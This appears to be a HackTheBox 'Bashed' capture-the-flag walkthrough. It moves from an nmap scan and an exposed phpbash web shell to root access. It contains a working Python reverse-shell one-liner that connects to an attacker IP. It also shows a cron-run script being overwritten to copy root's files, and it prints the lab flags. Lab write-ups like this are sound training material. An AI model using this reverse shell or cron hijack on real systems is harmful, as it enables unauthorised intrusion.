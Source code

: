 ```yaml
---
title: HackTheBox - Bashed
date: 2020-12-26 23:59:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, phpbash, reverse-shell, sudo misconfiguration, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/bashed/Bashed.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oN Bashed.txt 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.68
Host is up (0.098s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Apache/2.4.18 (port 80)

![Arrexel's Development Site](/assets/img/htb/machines/linux/easy/bashed/web-1.png)

![only post](/assets/img/htb/machines/linux/easy/bashed/web-2.png)

#### `dirb`

![dirb](/assets/img/htb/machines/linux/easy/bashed/dirb.png)

#### phpbash

As mentionned on the post we saw earlier &uarr;, [phpbash](https://github.com/Arrexel/phpbash) is running on `/dev`:

![phpbash](/assets/img/htb/machines/linux/easy/bashed/phpbash.png)

## reverse shell (`www-data`)

```bash
export RHOST="10.10.14.7";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

![reverse-shell](/assets/img/htb/machines/linux/easy/bashed/reverse-shell.png)

```bash
$ ls /home
arrexel  scriptmanager
```

We can read `user.txt` by the way:

```bash
$ cat /home/arrexel/user.txt
2c281f318555dbc1b856957c7147bfc1
```

Okay, so we identified two users:

1. `arrexel` 
2. `scriptmanager`

How about us?

```bash
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

The sudo config tells us that we can switch to `scriptmanager` without password.

## User #1 (scriptmanager)

```bash
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ find / -user $(whoami) 2>/dev/null | grep -v "^/proc"   
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout 
```

Let's inspect this `/scripts` directory:

```
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Dec 26 13:38 test.txt
scriptmanager@bashed:/scripts$ cat test.txt; echo ""
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

That's suspicious buddy. **root** own the file `test.txt`.

![suspicious gif](https://i.gifer.com/LQW.gif)

Moreover, the file is updated every minute (cronjob?). This implies that `test.py` is executed every minute also. 

More precisely by **root** because the script creates the file `test.txt` and it's owned by him:

![minute](/assets/img/htb/machines/linux/easy/bashed/minute.png)

## Root

Let's copy `root.txt` in `/tmp`:

```bash
$ echo "import os; os.system('cp /root/root.txt /tmp/flag'); os.system('chmod 444 /tmp/flag');" > test.py 
```

![flag](/assets/img/htb/machines/linux/easy/bashed/flag.png)

```bash
scriptmanager@bashed:/scripts$ cat /tmp/flag
cc4f0afe3a1026d402ba10329674a8e2
```